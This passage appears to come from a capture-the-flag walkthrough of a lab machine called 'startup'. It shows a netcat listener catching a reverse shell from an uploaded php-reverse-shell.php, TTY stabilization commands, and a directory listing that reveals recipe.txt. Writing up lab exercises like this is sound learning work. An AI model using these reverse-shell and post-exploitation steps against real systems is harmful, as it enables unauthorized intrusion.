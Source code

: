 <figure><img src="../../.gitbook/assets/5 (66).png" alt=""><figcaption></figcaption></figure>

* All we have to do now is execute the `php-reverse-shell.php` file.
* If we go back to our console, we must have a shell.

```
$ nc -nlvp 9999            
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.96.227] 37428
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 06:33:05 up 42 min,  0 users,  load average: 0.00, 0.00, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

* We can stabilize the shell using the following commands:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+Z
stty raw -echo; fg
```

* Let's look for the secret spicy soup recipe.

```
www-data@startup:/$ ls
bin   home            lib         mnt         root  srv  vagrant
boot  incidents       lib64       opt         run   sys  var
dev   initrd.img      lost+found  proc        sbin  tmp  vmlinuz
etc   initrd.img.old  media       recipe.txt  snap  usr  vmlinuz.old
```
